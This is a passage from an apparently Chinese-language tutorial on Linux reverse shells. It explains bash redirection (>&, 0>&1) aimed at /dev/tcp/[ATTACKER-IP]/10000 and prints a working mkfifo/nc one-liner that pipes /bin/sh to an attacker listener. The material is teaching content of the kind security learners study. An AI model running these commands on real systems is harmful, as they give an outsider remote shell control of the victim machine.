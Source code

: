 关于`>&`：

```
&>word
or
>&word

Of the two forms, the first is preferred.  
    This is semantically equivalent to:

>word 2>&1

This construct allows both the standard output 
    (file descriptor 1) and the standard error 
    output (file descriptor 2) to be redirected 
    to the file whose name is the expansion of word.
```

所以`stderr`和`stdout`会被重定向到`/dev/tcp/[ATTACKER-IP]/10000`。

关于`0>&1`：

```
Redirections are processed in the order they
       appear, from left to right.
```

看下面两条指令：

```bash
# 1
ls > dirlist 2>&1
# 2
ls 2>&1 > dirlist
```

上面指令1会先把`ls`的`stdout`定向为`dirlist`文件，接着把`stderr`定向为`stdout`，所以这条指令会把`ls`的`标准输出`和`标准错误输出`都输出到`dirlist`文件。

指令2先把`ls`的`stderr`定向到`stdout`，即默认的屏幕输出；再把`stdout`定向到`dirlist`文件，所以最终只有`标准输出`会输出到`dirlist`。

类似的，`0>&1`会把`stdin`重定向到`stdout`的设备。而之前由于`>&`，所以实际上`stdin`也被重定向到`/dev/tcp/[ATTACKER-IP]/10000`。

## 0x02 反弹shell：nc

对于靶机上的`nc`能够通过`-e`方式执行shell的情况不再叙述，大部分靶机可能都不能用`-e`选项。这里考察`-e`选项不能使用的情况。

```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ATTACKER-IP] 10000 >/tmp/f
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-11.png)
